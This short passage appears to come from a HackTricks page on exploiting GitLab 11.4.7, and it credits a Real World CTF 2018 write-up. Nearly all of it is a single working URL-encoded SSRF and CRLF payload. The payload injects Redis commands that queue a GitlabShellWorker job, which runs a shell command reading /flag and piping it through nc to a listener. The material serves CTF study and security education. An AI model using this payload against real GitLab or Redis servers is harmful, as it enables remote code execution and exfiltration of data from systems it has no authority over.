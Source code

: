 And the **URL encode** request **abusing SSRF** and **CRLF** to execute a `whoami` and send back the output via `nc` is:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```

_For some reason (as for the author of_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _where this info was took from) the exploitation worked with the `git` scheme and not with the `http` scheme._

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
